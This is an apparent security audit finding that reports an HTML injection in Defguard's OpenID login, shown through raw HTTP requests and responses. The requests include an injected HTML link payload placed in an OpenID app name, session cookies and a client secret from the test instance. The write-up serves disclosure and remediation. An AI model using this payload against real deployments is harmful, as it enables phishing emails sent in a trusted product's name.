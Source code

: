 ```yaml
---
title: "DG25-21: HTML Injection - OpenID login"
severity: Info
cvss_string: "/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1551
---
```


### Technical details

1.  The name of the OpenID app is being changed:

**Request:**\
\
**PUT** /api/v1/oauth/9szvHNlxY6R3jvbX HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=KENMUulcmfVkD0W8MZjN4Rjw\
\[\...\]

```json
{ 
  "client_secret ": "SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN ", 
  "enabled ":false, 
  "id ":8, 
  "name ":" <h1 > <a href= '//isec.pl ' >CLICK HERE </a > </h1 > <! -- ", 
  "redirect_uri ": [ "https://isec.pl " ], 
  "scope ": [ "openid " ]
} 
```


\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 11 Aug 2025 10:33:09 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 2\
\
{}

1.  User authorizes the OpenID:

**Request:**\
\
**POST**
`/api/v1/oauth/authorize?scope=openid&response_type=code&client_id=9szvHNlxY6R3jvbX&redirect_uri=https%3A%2F%2Fisec.pl&state=1113&nonce=test&allow=true`
HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=0i1uyyokye6n58A0mSLs1VQ7\
\
\
**Response:**\
\
**HTTP/2** 302 Found\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Mon, 11 Aug 2025 10:35:23 GMT\
**Location:** `https://isec.pl/?code=dmDdZMoVBMztMUodpnDmLsQh&state=1113`\
**Server:** Caddy\
**Content-Length:** 0

1.  An e-mail with HTML injection is being sent:

![](/images/pentest/DG25/img9.png)
